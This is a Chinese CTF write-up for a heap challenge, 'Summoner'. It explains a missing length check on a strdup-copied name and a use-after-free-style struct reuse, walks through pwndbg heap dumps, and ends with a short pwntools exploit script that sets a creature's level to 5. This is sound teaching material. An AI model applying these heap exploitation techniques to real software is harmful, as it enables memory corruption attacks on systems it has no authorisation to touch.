 # Summoner

本次比赛唯二的堆题，但是极其简单。邪恶召唤师召唤了一只5级生物，但是你只能召唤四级生物，你的目的就是修改生物的等级为5级。

题目提供了几种命令：
- 展示召唤物信息
- 召唤一只生物，并给它起名字
- 设置生物的等级，但必须小于5
- 攻击敌方召唤物
- 释放召唤物

我们通过逆向可以得知，召唤物的结构体长这样：
```c
struct creature {
    char *name;
    int level;
};
```

随后可以发现两处漏洞：
- 召唤时，输入的`name`使用`strdup`函数（隐式调用了`malloc`），但并没有检查长度，因此可以溢出到下一个8字节处。
- 在释放召唤物时，只会调用`free(c->name)`，然后将结构体指针置空，但并不会释放结构体指针本身。

因此我们尝试先召唤一个名为`aaaaaaaa\x05`的生物，此时堆结构如下：
```bash
pwndbg> heapls
           ADDR             SIZE            STATUS
sbrk_base  0x56476bb24000
chunk      0x56476bb24000   0x1010          (inuse)
chunk      0x56476bb25010   0x20            (inuse)
chunk      0x56476bb25030   0x20            (inuse)
chunk      0x56476bb25050   0x20fb0         (top)
sbrk_end   0x56476bb46000
pwndbg> x/8gx 0x56476bb25010
0x56476bb25010:	0x0000000000000000	0x0000000000000021
0x56476bb25020:	0x000056476bb25040	0x0000000000000000
0x56476bb25030:	0x0000000000000000	0x0000000000000021
0x56476bb25040:	0x6161616161616161	0x0000000000000005
```

可以看到有2块0x20的chunk，第一块是结构体指针，存放着`name`地址和`level`数值；第二块就是`name`了，存放着我们输入的`name`，注意这时第二个8字节已经是5了。随后我们释放召唤物：
```
pwndbg> x/8gx 0x5621c569e010
0x5621c569e010:	0x0000000000000000	0x0000000000000021
0x5621c569e020:	0x00005621c569e040	0x0000000000000000
0x5621c569e030:	0x0000000000000000	0x0000000000000021
0x5621c569e040:	0x0000000000000000	0x0000000000000005
```
这时`name`被`free`了但指针还在，我们刚刚写的`\x05`也还在。这时再召唤就能得到`0x5621c569e030`处的一块chunk作为结构体指针，而新的`name`跑到了`0x55feced35050`：
```
pwndbg> x/12gx 0x55feced35010
0x55feced35010:	0x0000000000000000	0x0000000000000021
0x55feced35020:	0x000055feced35040	0x0000000000000000
0x55feced35030:	0x0000000000000000	0x0000000000000021
0x55feced35040:	0x000055feced35060	0x0000000000000005
0x55feced35050:	0x0000000000000000	0x0000000000000021
0x55feced35060:	0x0000000000000061	0x0000000000000000
```

于是此时，结构体指针里的`level`就变成了5。
```py
sla('> ','summon aaaaaaaa'+'\x05')
sla('> ','release')
sla('> ','summon a')
sla('> ','strike')
```